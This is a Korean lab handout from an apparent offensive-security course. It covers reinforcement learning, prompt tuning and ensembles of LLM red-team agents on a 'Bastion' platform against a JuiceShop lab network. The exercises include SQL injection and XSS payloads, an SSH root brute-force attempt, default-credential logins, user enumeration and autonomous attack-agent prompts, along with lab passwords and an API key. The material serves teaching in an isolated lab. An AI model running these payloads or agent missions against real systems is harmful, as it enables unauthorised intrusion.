



# Week 10: AI vs AI 공방전 (2) — 강화학습 전략, 에이전트 튜닝, 앙상블

## 학습 목표
- 강화학습(RL)의 핵심 개념(상태, 행동, 보상, 정책)을 사이버 보안 에이전트에 적용할 수 있다
- Bastion의 Q-learning 기반 RL 시스템을 활용하여 에이전트 행동 정책을 학습할 수 있다
- 프롬프트 엔지니어링으로 에이전트 행동을 체계적으로 튜닝하는 기법을 실습한다
- 멀티 에이전트 앙상블 전략을 설계하고 단일 에이전트 대비 성능 향상을 검증한다
- PoW 보상 데이터를 분석하여 에이전트 최적화의 근거를 도출할 수 있다
- Red/Blue 에이전트의 대결을 반복 수행하며 학습 곡선을 관찰할 수 있다

## 전제 조건
- Week 09 AI vs AI 공방전 (1) 이수 완료
- AI 에이전트 아키텍처(ReAct, Tool Use) 이해
- Bastion execute-plan, dispatch, evidence API 사용 경험
- Python 기초 (딕셔너리, 리스트, JSON 처리)
- 기초 확률/통계 개념 (기대값, 할인율)

## 실습 환경 (공통)

| 호스트 | IP | 역할 | 접속 |
|--------|-----|------|------|
| bastion | 10.20.30.201 | 공격 기지 / Control Plane | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹 서버 (JuiceShop, Apache) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh, OpenCTI) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | Part 1: 강화학습 기초와 보안 에이전트 적용 | 강의 |
| 0:40-1:20 | Part 2: Bastion RL 시스템 심화 + 에이전트 튜닝 | 강의/실습 |
| 1:20-1:30 | 휴식 | - |
| 1:30-2:10 | Part 3: 프롬프트 최적화와 에이전트 성능 비교 | 실습 |
| 2:10-2:50 | Part 4: 멀티 에이전트 앙상블과 반복 대결 | 실습 |
| 2:50-3:00 | 휴식 | - |
| 3:00-3:20 | 성능 분석 토론 + 최적 전략 도출 | 토론 |
| 3:20-3:40 | 검증 퀴즈 + 과제 안내 | 퀴즈 |

---

## 용어 해설

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **강화학습** | Reinforcement Learning (RL) | 환경과 상호작용하며 보상을 최대화하는 학습 방법 | 시행착오로 배우는 과정 |
| **Q-learning** | Q-Learning | 상태-행동 쌍의 기대 보상을 학습하는 RL 알고리즘 | 경험표에서 최적 행동 찾기 |
| **Q-테이블** | Q-Table | 상태×행동 조합의 기대 보상값을 저장하는 표 | 전략 참고표 |
| **보상 함수** | Reward Function | 에이전트 행동의 좋고 나쁨을 수치화하는 함수 | 성적표 |
| **정책** | Policy | 주어진 상태에서 어떤 행동을 선택할지 결정하는 규칙 | 행동 지침서 |
| **탐험-활용** | Exploration-Exploitation | 새로운 행동 시도 vs 알려진 좋은 행동 반복의 균형 | 새 식당 vs 단골집 |
| **할인율** | Discount Factor (γ) | 미래 보상의 현재 가치를 조정하는 계수 (0~1) | 눈앞의 이익 vs 장기 투자 |
| **에피소드** | Episode | 하나의 완전한 학습 시행 (시작→종료) | 게임 한 판 |
| **앙상블** | Ensemble | 여러 에이전트/모델의 결과를 결합하여 성능을 향상 | 전문가 합의 |
| **프롬프트 튜닝** | Prompt Tuning | 시스템 프롬프트를 최적화하여 에이전트 행동을 개선 | 지시문 다듬기 |
| **체인 오브 버리피케이션** | Chain of Verification | LLM이 자신의 출력을 검증하는 자기 교정 기법 | 자기 검토 |
| **전이 학습** | Transfer Learning | 한 환경에서 학습한 정책을 다른 환경에 적용 | 경험의 일반화 |

---

# Part 1: 강화학습 기초와 보안 에이전트 적용 (40분)

## 1.1 강화학습(RL) 핵심 개념

강화학습은 **에이전트가 환경과 상호작용하면서 보상을 최대화하는 행동 정책을 학습**하는 기계학습 패러다임이다. 사이버 보안 에이전트에 적용하면 공격/방어 전략을 자동으로 최적화할 수 있다.

### RL의 기본 구성 요소



> 목표: 누적 보상 R = Σ γ^t × r_t 최대화

### RL 구성 요소의 보안 에이전트 매핑

| RL 개념 | 공격 에이전트 매핑 | 방어 에이전트 매핑 |
|---------|------------------|------------------|
| **상태 (State)** | 현재 정찰 결과, 획득한 접근 수준 | 현재 알림 상태, 탐지 커버리지 |
| **행동 (Action)** | 스캔, 익스플로잇, 측면 이동 | 규칙 추가, 차단, 알림 발송 |
| **보상 (Reward)** | 취약점 발견 +10, 탐지됨 -5 | 공격 탐지 +10, 미탐지 -5 |
| **정책 (Policy)** | 다음에 어떤 공격을 시도할지 | 다음에 어떤 방어를 강화할지 |
| **환경 (Environment)** | 대상 네트워크/서버 | 보호 대상 인프라 |

## 1.2 Q-learning 알고리즘 상세

Q-learning은 **모델 없는(model-free) RL 알고리즘**으로, 상태-행동 쌍의 기대 보상(Q값)을 반복적으로 업데이트한다.

### Q-learning 업데이트 공식

```
Q(s, a) ← Q(s, a) + α × [r + γ × max_a' Q(s', a') - Q(s, a)]

여기서:
  Q(s, a) : 상태 s에서 행동 a의 기대 보상
  α       : 학습률 (0.1~0.3, 새 경험의 반영 정도)
  r       : 즉시 보상
  γ       : 할인율 (0.9~0.99, 미래 보상의 중요도)
  s'      : 행동 후 다음 상태
  max_a'  : 다음 상태에서 최적 행동의 Q값
```

### 보안 에이전트 Q-테이블 예시

| 상태 \ 행동 | nmap 스캔 | SQLi 시도 | XSS 시도 | SSH 브루트포스 | 방어 회피 |
|-------------|----------|----------|---------|-------------|----------|
| 초기 (정보 없음) | **0.85** | 0.20 | 0.15 | 0.10 | 0.05 |
| 정찰 완료 | 0.30 | **0.78** | 0.65 | 0.25 | 0.40 |
| 웹 취약점 발견 | 0.10 | **0.92** | 0.70 | 0.15 | 0.55 |
| 쉘 획득 | 0.05 | 0.10 | 0.05 | 0.15 | **0.88** |
| 관리자 권한 | 0.02 | 0.05 | 0.03 | 0.08 | **0.75** |

> **해석**: Q값이 가장 높은 행동(볼드)이 해당 상태에서의 최적 행동이다. 초기 상태에서는 nmap 정찰이, 웹 취약점 발견 후에는 SQLi가 최적이다.

### 탐험-활용(Exploration-Exploitation) 전략

| 전략 | 설명 | epsilon 값 | 적합 시기 |
|------|------|-----------|----------|
| **ε-greedy** | ε 확률로 무작위, (1-ε)로 최적 선택 | 0.1~0.3 | 범용 |
| **ε-decay** | 학습 초기 ε=1.0에서 점차 감소 | 1.0→0.01 | 학습 초기~중기 |
| **UCB** | 불확실성이 높은 행동을 우선 탐험 | - | 탐험이 중요할 때 |
| **Boltzmann** | Q값에 비례한 확률로 선택 | 온도 τ | 세밀한 탐험 |

## 1.3 Bastion RL 시스템의 구조

Bastion는 **task_reward 데이터를 수집하여 Q-learning 정책을 학습**하는 내장 RL 시스템을 제공한다.

### Bastion RL 아키텍처



### Bastion RL API 정리

| API | 메서드 | 설명 | 입력 | 출력 |
|-----|--------|------|------|------|
| `/rl/train` | POST | Q-learning 학습 실행 | - | 학습 결과 (에피소드 수, 수렴도) |
| `/rl/recommend` | GET | 최적 행동 추천 | agent_id, risk_level | 추천 행동, Q값 |
| `/rl/policy` | GET | 현재 정책 상태 조회 | - | Q-테이블, 파라미터 |

### 보상 함수 설계 원칙

| 보상 조건 | 보상 값 | 설명 |
|----------|---------|------|
| 태스크 성공 (exit_code=0) | +1.0 | 기본 성공 보상 |
| 취약점 발견 | +5.0 | 실제 보안 가치 |
| 신규 정보 획득 | +2.0 | 탐험 촉진 |
| 실행 실패 (exit_code≠0) | -0.5 | 비효율 패널티 |
| 탐지됨 (IDS 알림) | -3.0 | 은밀성 패널티 |
| 파괴적 행동 | -10.0 | 안전 위반 강력 패널티 |
| 시간 초과 | -1.0 | 효율성 패널티 |

## 1.4 RL 기반 보안 에이전트의 학습 과정

### 학습 에피소드 구성

```
에피소드 1: [정찰 → SQLi → 실패 → XSS → 성공]
  보상: +1.0 -0.5 +5.0 = +5.5

에피소드 2: [정찰 → 브루트포스 → 탐지됨 → 종료]
  보상: +1.0 -3.0 = -2.0

에피소드 3: [정찰 → SQLi → 성공 → 권한상승 → 성공]
  보상: +1.0 +5.0 +5.0 = +11.0

→ Q-테이블 업데이트: "정찰 완료 후 SQLi"의 Q값 상승
```

### 학습 곡선 패턴

| 학습 단계 | 에피소드 수 | 평균 보상 | 특징 |
|----------|-----------|----------|------|
| 초기 탐험 | 1-50 | -2 ~ +3 | 무작위 행동, 높은 분산 |
| 패턴 발견 | 50-200 | +3 ~ +6 | 유효한 전략 발견 시작 |
| 수렴 | 200-500 | +6 ~ +8 | 안정적 정책 형성 |
| 최적화 | 500+ | +8 ~ +10 | 미세 조정, 일반화 |

---

# Part 2: Bastion RL 시스템 심화 + 에이전트 튜닝 (40분)

## 2.1 RL 학습 데이터 생성

RL 학습의 품질은 **충분하고 다양한 경험 데이터**에 의존한다. Bastion에서 체계적으로 데이터를 생성하는 방법을 학습한다.

### 데이터 생성 전략

| 전략 | 설명 | 다양성 | 비용 |
|------|------|--------|------|
| **순차 시나리오** | 킬체인 순서대로 실행 | 낮음 | 낮음 |
| **무작위 탐험** | 임의 순서로 다양한 행동 | 높음 | 중간 |
| **적대적 시나리오** | 의도적으로 실패 유도 | 중간 | 중간 |
| **혼합 전략** | 위 세 가지 조합 | 매우 높음 | 높음 |

## 2.2 프롬프트 튜닝 방법론

프롬프트 튜닝은 **LLM 에이전트의 행동을 시스템 프롬프트 수정으로 최적화**하는 기법이다. RL과 결합하면 더 강력한 에이전트를 만들 수 있다.

### 프롬프트 튜닝 차원

| 차원 | 변수 | 효과 | 예시 |
|------|------|------|------|
| **구체성** | 지시 상세도 | 높을수록 정확하지만 유연성 감소 | "SQLi를 먼저 시도" vs "취약점을 찾아라" |
| **역할 깊이** | 전문성 수준 | 깊을수록 전문적 행동 | "10년 경력 레드팀 리더" |
| **제약 강도** | 금지 행위 수 | 많을수록 안전하지만 탐험 제한 | "rm, DROP, shutdown 금지" |
| **출력 형식** | 구조화 정도 | 높을수록 파싱 용이 | JSON 스키마 지정 |
| **컨텍스트 양** | 제공 정보량 | 많을수록 정확하지만 토큰 비용 | 이전 실행 결과 포함 |

### A/B 테스트 프레임워크

```
+----------------------------------------------------+
|            프롬프트 A/B 테스트 설계                |
+----------------------------------------------------+
|                                                    |
|  프롬프트 A (기본)  -+                             |
|  프롬프트 B (상세)  -┼--▶ 동일 대상 실행           |
|  프롬프트 C (전문)  -+    동일 평가 메트릭         |
|                                                    |
|  평가 기준:                                        |
|  - 발견율 (Discovery Rate)                         |
|  - 정밀도 (Precision)                              |
|  - 토큰 사용량 (Token Cost)                        |
|  - 실행 시간 (Latency)                             |
|  - 은밀성 (Stealth Score)                          |
+----------------------------------------------------+
```

## 2.3 에이전트 앙상블 전략

단일 에이전트의 한계를 극복하기 위해 **여러 에이전트의 결과를 결합**하는 앙상블 전략을 사용한다.

### 앙상블 패턴

| 패턴 | 설명 | 적합 시나리오 | 비용 |
|------|------|-------------|------|
| **다수결 (Voting)** | 여러 에이전트의 판단을 투표로 결합 | 분류/판단 | 낮음 |
| **전문가 혼합 (MoE)** | 상황에 따라 전문 에이전트 선택 | 다양한 공격 유형 | 중간 |
| **파이프라인 체인** | 에이전트를 순차적으로 연결 | 킬체인 자동화 | 중간 |
| **경쟁적 앙상블** | 같은 목표를 독립 수행 후 최선 선택 | 최적 전략 탐색 | 높음 |
| **계층적 앙상블** | 상위 에이전트가 하위 에이전트 조율 | Bastion 구조 | 높음 |

### 전문가 혼합(MoE) 패턴 상세

```
+-----------------------------------------+
|           라우터 에이전트               |
|   (상황 분석 후 전문가 선택)            |
+-----------------------------------------+
|   |                                     |
|   +--▶ 정찰 전문가 (Recon Expert)       |
|   |    모델: gemma3:12b                 |
|   |    강점: 포트 스캔, 핑거프린팅      |
|   |                                     |
|   +--▶ 웹 공격 전문가 (Web Expert)      |
|   |    모델: gpt-oss:120b               |
|   |    강점: SQLi, XSS, CSRF            |
|   |                                     |
|   +--▶ 인프라 전문가 (Infra Expert)     |
|   |    모델: llama3.1:8b                |
|   |    강점: SSH, 권한상승, 측면이동    |
|   |                                     |
|   +--▶ 방어 분석가 (Defense Analyst)    |
|        모델: gemma3:12b                 |
|        강점: 로그 분석, 탐지 규칙       |
+-----------------------------------------+
```

---

# Part 3: 프롬프트 최적화와 에이전트 성능 비교 실습 (40분)

## 실습 3.1: RL 학습 데이터 생성 및 학습 실행

> **실습 목적**: 다양한 공격 시나리오를 실행하여 RL 학습 데이터를 생성하고, Bastion의 Q-learning 학습을 수행한다.
>
> **배우는 것**: RL 학습에 필요한 경험 데이터의 양과 다양성, Bastion RL API의 사용법, Q-learning 학습 결과의 해석 방법을 이해한다.
>
> **결과 해석**: 학습 후 `/rl/policy`로 Q-테이블을 확인하여 각 상태에서의 최적 행동을 파악한다. Q값이 높은 행동이 많은 보상을 받은 행동이다.
>
> **실전 활용**: 이 학습 과정은 실제 AI 에이전트 시스템에서 운영 데이터를 기반으로 정책을 개선하는 방법론의 기초이다.

```bash
# API 키 설정
export BASTION_API_KEY=ccc-api-key-2026

# 프로젝트 생성 — RL 학습 데이터 생성용
curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week10-rl-data-gen",
    "request_text": "RL 학습 데이터 생성: 다양한 공격 시나리오 실행",
    "master_mode": "external"
  }' | python3 -m json.tool
# PROJECT_ID 메모
```

```bash
export PROJECT_ID="반환된-프로젝트-ID"

# Stage 전환
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID/plan \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID/execute \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
```

```bash
# 시나리오 1: 성공적 공격 경로 (높은 보상 기대)
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[시나리오1] 정찰\"; nmap -sV --top-ports 20 10.20.30.80 2>/dev/null | grep open",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[시나리오1] SQLi 탐색\"; curl -s \"http://10.20.30.80:3000/rest/products/search?q=test%27%20OR%201=1--\" 2>/dev/null | head -5",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"[시나리오1] API 열거\"; for ep in /api /rest/admin /rest/user; do echo \"$ep: $(curl -s -o /dev/null -w %{http_code} http://10.20.30.80:3000$ep 2>/dev/null)\"; done",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
```

> **명령어 해설**:
> - 시나리오 1은 "정찰→SQLi→API 열거"의 성공적 공격 경로를 시뮬레이션한다
> - 각 task의 risk_level이 다르므로 Q-learning이 risk_level별 보상을 학습할 수 있다
> - `--top-ports 20`은 가장 흔한 20개 포트만 스캔하여 속도를 높인다
>
> **트러블슈팅**: 시나리오 실행이 느리면 nmap의 포트 범위를 줄이거나 `-T4` 옵션을 추가한다.

```bash
# 시나리오 2: 실패 경로 (낮은/음수 보상 기대)
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[시나리오2] 무작위 포트 접근\"; curl -s --connect-timeout 2 http://10.20.30.80:9999 2>/dev/null || echo \"Connection refused\"",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[시나리오2] 잘못된 경로 접근\"; curl -s -o /dev/null -w \"%{http_code}\" http://10.20.30.80:3000/nonexistent/path 2>/dev/null",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
```

```bash
# RL 학습 실행
curl -s -X POST http://localhost:9100/rl/train \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
# 학습 결과 (에피소드 수, 수렴 여부) 확인
```

```bash
# 학습된 정책 확인
curl -s http://localhost:9100/rl/policy \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

# 특정 에이전트의 최적 행동 추천
curl -s "http://localhost:9100/rl/recommend?agent_id=http://10.20.30.201:8002&risk_level=low" \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

curl -s "http://localhost:9100/rl/recommend?agent_id=http://10.20.30.201:8002&risk_level=medium" \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
```

> **명령어 해설**:
> - `/rl/train`: 축적된 task_reward 데이터로 Q-learning 학습을 실행한다
> - `/rl/policy`: 현재 학습된 Q-테이블과 파라미터를 반환한다
> - `/rl/recommend`: 주어진 agent_id와 risk_level에 대한 최적 행동을 추천한다
>
> **트러블슈팅**: 학습 데이터가 부족하면 "insufficient data" 메시지가 나올 수 있다. 더 많은 시나리오를 실행한 후 재학습한다.

## 실습 3.2: 프롬프트 A/B 테스트 실행

> **실습 목적**: 서로 다른 수준의 시스템 프롬프트로 동일 대상을 공격하여 프롬프트 품질이 에이전트 성능에 미치는 영향을 정량적으로 비교한다.
>
> **배우는 것**: 프롬프트 상세도와 에이전트 성능의 관계, A/B 테스트 방법론, 최적 프롬프트 수준 결정 기준을 이해한다.
>
> **결과 해석**: 프롬프트가 상세할수록 발견율이 높아지지만, 너무 상세하면 유연성이 감소한다. 최적점을 찾는 것이 목표이다.
>
> **실전 활용**: 프롬프트 A/B 테스트는 실제 AI 제품 개발에서 성능 최적화의 핵심 방법론이다.

```bash
# 프롬프트 A: 최소 지시 — 자율 미션
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID/dispatch \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "command": "curl -s -X POST http://localhost:8002/a2a/mission -H \"Content-Type: application/json\" -d \"{\\\"mission\\\": \\\"10.20.30.80 포트 3000의 보안 취약점을 찾아라.\\\", \\\"max_steps\\\": 3}\" 2>/dev/null | python3 -m json.tool 2>/dev/null | head -40",
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# 결과를 "프롬프트A 결과"로 메모
```

```bash
# 프롬프트 B: 상세 지시 — 자율 미션
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID/dispatch \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "command": "curl -s -X POST http://localhost:8002/a2a/mission -H \"Content-Type: application/json\" -d \"{\\\"mission\\\": \\\"당신은 OWASP Top 10 전문 침투 테스터이다. 대상: 10.20.30.80:3000 (OWASP JuiceShop). 순서: 1) 서비스 핑거프린팅(curl -I), 2) API 엔드포인트 열거(/rest, /api, /admin), 3) SQL Injection 테스트(search 파라미터), 4) 인증 우회 시도. 각 단계 결과를 JSON으로 정리하라. rm, shutdown 등 파괴적 명령 금지.\\\", \\\"max_steps\\\": 5}\" 2>/dev/null | python3 -m json.tool 2>/dev/null | head -60",
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
# 결과를 "프롬프트B 결과"로 메모
```

> **명령어 해설**:
> - 프롬프트 A: "취약점을 찾아라"라는 최소 지시만 제공. LLM의 자율성에 크게 의존한다
> - 프롬프트 B: 역할, 대상 상세, 실행 순서, 출력 형식, 안전 규칙을 모두 포함한다
> - 두 결과를 비교하여 발견율, 정확성, 효율성을 평가한다
>
> **트러블슈팅**: 프롬프트 B의 결과가 잘려서 보이면 `head -60`을 `head -100`으로 늘린다. 미션이 max_steps에 도달하여 중단된 경우 steps를 7-10으로 늘려 재실행한다.

## 실습 3.3: RL 추천 기반 공격 실행

> **실습 목적**: RL이 학습한 정책을 실제 공격에 적용하여 추천된 행동과 비추천 행동의 성능을 비교한다.
>
> **배우는 것**: RL 추천의 실제 적용 방법, 추천 행동의 성능 검증, Q값과 실제 성능의 상관관계를 이해한다.
>
> **결과 해석**: RL 추천 행동이 비추천 행동보다 성공률이 높으면 학습이 효과적으로 이루어진 것이다.
>
> **실전 활용**: RL 추천 시스템은 실제 SOC 운영에서 분석관에게 최적 대응 행동을 추천하는 데 활용할 수 있다.

```bash
# RL 추천 확인 — 현재 에이전트의 최적 행동
curl -s "http://localhost:9100/rl/recommend?agent_id=http://10.20.30.201:8002&risk_level=low" \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
# 추천된 행동을 확인하고 실행할 계획을 수립한다
```

```bash
# 추천 행동 실행 프로젝트
curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week10-rl-recommended",
    "request_text": "RL 추천 기반 공격 실행",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export PROJECT_ID2="반환된-프로젝트-ID"

curl -s -X POST http://localhost:9100/projects/$PROJECT_ID2/plan \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID2/execute \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

# RL 추천 행동 실행 (정찰 → 웹 취약점 테스트)
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID2/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[RL추천] 정찰\"; nmap -sV --top-ports 20 10.20.30.80 2>/dev/null | grep open",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[RL추천] SQLi (추천 벡터)\"; curl -s \"http://10.20.30.80:3000/rest/products/search?q=%27%20OR%201=1--\" 2>/dev/null | python3 -c \"import sys,json; d=json.load(sys.stdin); print(f\\\"결과: {len(d.get(\\x27data\\x27,[]))}건\\\")\" 2>/dev/null",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"[비추천] SSH 브루트포스 (비추천 벡터)\"; timeout 5 sshpass -p wrongpass ssh -o StrictHostKeyChecking=no -o ConnectTimeout=3 root@10.20.30.80 \"echo success\" 2>&1 | head -3 || echo \"SSH 접근 실패 (예상된 결과)\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
```

> **명령어 해설**:
> - order 2: RL이 추천한 공격 벡터(SQLi) 실행 — 높은 성공 확률 기대
> - order 3: RL이 비추천한 벡터(SSH 브루트포스) 실행 — 낮은 성공 확률 기대
> - `timeout 5`: 브루트포스가 무한 대기하지 않도록 5초 제한
> - 두 결과를 비교하여 RL 추천의 유효성을 검증한다
>
> **트러블슈팅**: RL 추천이 "insufficient data"를 반환하면 실습 3.1의 시나리오를 더 실행한 후 `/rl/train`을 재실행한다.

```bash
# 보상 랭킹 재확인 — 실습 후 변화 관찰
curl -s http://localhost:9100/pow/leaderboard \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

# evidence 종합 비교
curl -s -H "X-API-Key: $BASTION_API_KEY" \
  http://localhost:9100/projects/$PROJECT_ID2/evidence/summary \
  | python3 -m json.tool
```

> **명령어 해설**: leaderboard에서 에이전트의 누적 보상이 증가했는지 확인한다. evidence/summary에서 각 task의 성공/실패를 비교하여 RL 추천의 유효성을 판단한다.
>
> **트러블슈팅**: leaderboard의 보상이 음수이면 실패 시나리오가 많은 것이다. 성공 시나리오를 추가로 실행하여 보상을 균형있게 만든다.

---

# Part 4: 멀티 에이전트 앙상블과 반복 대결 (40분)

## 실습 4.1: 멀티 에이전트 앙상블 구성

> **실습 목적**: 여러 SubAgent를 다른 역할로 구성하여 앙상블 공격 파이프라인을 실행한다.
>
> **배우는 것**: 멀티 에이전트 앙상블의 구성 방법, 에이전트 간 역할 분배, 결과 종합 분석 방법을 이해한다.
>
> **결과 해석**: 앙상블의 종합 결과가 단일 에이전트보다 더 많은 취약점을 발견했다면 앙상블 전략이 효과적인 것이다.
>
> **실전 활용**: 대규모 네트워크의 보안 점검에서 여러 에이전트가 각각 다른 관점으로 동시 점검하는 것은 실무에서 자주 사용되는 패턴이다.

```bash
# 앙상블 프로젝트 생성
curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week10-ensemble-attack",
    "request_text": "멀티 에이전트 앙상블 공격 시뮬레이션",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export PROJECT_ID3="반환된-프로젝트-ID"

curl -s -X POST http://localhost:9100/projects/$PROJECT_ID3/plan \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID3/execute \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
```

```bash
# 앙상블 공격: 3개 SubAgent가 서로 다른 관점으로 동시 공격
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID3/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[Agent-1: 네트워크 정찰 전문]\"; nmap -sV -sC --top-ports 50 10.20.30.80 2>/dev/null | grep -E \"open|http|ssh\"",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[Agent-2: 웹 취약점 전문]\"; echo \"--- SQLi 테스트 ---\"; curl -s -o /dev/null -w \"%{http_code}\" \"http://10.20.30.80:3000/rest/products/search?q=%27OR+1=1--\" 2>/dev/null; echo; echo \"--- XSS 테스트 ---\"; curl -s -o /dev/null -w \"%{http_code}\" \"http://10.20.30.80:3000/rest/products/search?q=%3Cimg+src=x+onerror=alert(1)%3E\" 2>/dev/null; echo; echo \"--- CSRF 토큰 확인 ---\"; curl -s http://10.20.30.80:3000 2>/dev/null | grep -i csrf | head -3 || echo \"CSRF 토큰 미발견\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"[Agent-3: 인증/인가 전문]\"; echo \"--- 기본 계정 시도 ---\"; curl -s -X POST http://10.20.30.80:3000/rest/user/login -H \"Content-Type: application/json\" -d \"{\\\"email\\\":\\\"admin@juice-sh.op\\\",\\\"password\\\":\\\"admin123\\\"}\" 2>/dev/null | head -5; echo; echo \"--- 사용자 열거 ---\"; curl -s http://10.20.30.80:3000/rest/user/whoami 2>/dev/null | head -5; echo; echo \"--- 비인증 API 접근 ---\"; curl -s http://10.20.30.80:3000/api/Users 2>/dev/null | head -10",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
```

> **명령어 해설**:
> - Agent-1: 네트워크 계층 정찰 전문 — nmap 서비스/스크립트 스캔 수행
> - Agent-2: 웹 애플리케이션 취약점 전문 — SQLi, XSS, CSRF 세 가지 OWASP Top 10 벡터 테스트
> - Agent-3: 인증/인가 전문 — 기본 계정 시도, 사용자 열거, 비인증 API 접근 테스트
> - 세 에이전트가 독립적으로 다른 관점에서 분석하므로 커버리지가 확대된다
>
